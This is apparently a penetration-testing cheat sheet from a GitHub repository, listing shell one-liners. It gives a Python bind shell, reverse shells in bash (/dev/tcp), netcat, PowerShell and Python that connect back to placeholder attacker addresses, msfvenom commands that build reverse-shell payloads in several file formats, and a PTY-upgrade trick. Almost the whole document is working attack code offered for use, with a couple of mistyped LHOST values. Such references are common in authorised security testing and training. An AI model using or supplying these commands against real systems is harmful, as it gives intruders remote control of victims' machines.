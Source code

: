 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit_shells.mdd">Top of Page</a> |
  <a href="/CheatSheets/2_exploit_shells.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Shells
## Table of Contents
* [Bind Shells](#bind-shells)
  * [Python](#python-bind-shell)
* [Reverse Shells](#reverse-shells)
  * [BASH](#bash-reverse-shells) 
  * [Msfvenom](#msfvenom-reverse-shells)
  * [Netcat](#netcat-reverse-shells)
  * [PowerShell](#powershell-reverse-shells)
  * [Python](#python-reverse-shells) 
* [Upgrade to a PTY Shell](#upgrade-to-a-pty-shell)
  * [Python PTY Shell](#python-pty-shell) 

## Bind Shells
#### Python Bind Shell
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
#### Bash Reverse Shells
```bash
bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

#### Msfvenom Reverse Shells
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o rshell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f asp -o rshell.asp
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o rshell.php
msfvenom -p windows/shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f hta-psh -o rshell.hta
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f powershell
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f msi -o rshell.msi
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f war > rshell.war
```

#### Netcat Reverse Shells
```bash
sudo nc -nv 10.10.10.10 443 -e /bin/bash
nc -nv 10.10.10.10 443 -e "/bin/bash"
```

#### PowerShell Reverse Shells
```bash
'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.11.12.13",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

#### Python Reverse Shells
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

## Upgrade to a PTY Shell
#### Python PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit_shells.mdd">Top of Page</a> |
  <a href="/CheatSheets/2_exploit_shells.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
